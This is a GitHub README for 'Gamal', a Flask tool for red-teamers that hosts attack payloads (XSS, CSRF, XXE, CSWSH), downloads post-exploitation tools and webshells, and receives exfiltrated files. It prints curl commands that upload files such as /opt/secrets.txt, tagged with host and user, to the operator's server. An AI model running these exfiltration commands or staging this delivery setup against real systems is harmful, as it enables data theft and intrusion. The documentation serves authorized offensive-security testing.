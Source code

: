 # Gamal

A tiny flask app for helping red-teamers, purple teamers, and pentesters in delivery, mass data exfiltration, and some attacks (OOB communications, SSRF, XXE, XSS, Session Hijacking, Session Riding).

## Install

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
sudo apt install python3-flask #or python3 -m pip install flask
python3 gamal.py
```  

## Arguments

```
  -h, --help       show this help message and exit
  --log LOG        Path to the log file
  --port PORT      Port / HTTPs
  --ip IP          IP e.g.: 0.0.0.0 or 127.0.0.1
  --canary CANARY  Canary token
  --cert CERT      Your fullchain.pem file
  --key KEY        Your SSL private key file
  --host HOST      Your hostname or external IP address, Format: <FQDN>:<PORT>
  --delivery       Shows available files in the ./f path for delivery. Use it in combination with --host
```

### Usage
 
Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>] [--host <FQDN>:<YourPort> --delivery]`

Then you can use your IP & Port in your payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

## Delivery
### Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

### Gamal helper script (additional tools)

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use it in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)
- [Traitor](https://github.com/liamg/traitor)
- [Ncat](https://nmap.org/ncat/)
- Basic webshells (asp / aspx / jsp / php)

## Data exfiltration

### Linux / MacOS

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Windows

`Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
curl -k -F "file=@/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:

`received/{host}/{user}--{request.remote_addr}-{RealFileName}`

## Disclaimer

 This tool is intended for use only in a legal and legitimate manner. Unfortunately, there is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.

## To do

- [ ] DNS exfiltration capability
- [ ] ICMP exfiltration capability
- [X] Improving the logging format
- [ ] Adding more tools to the helper script

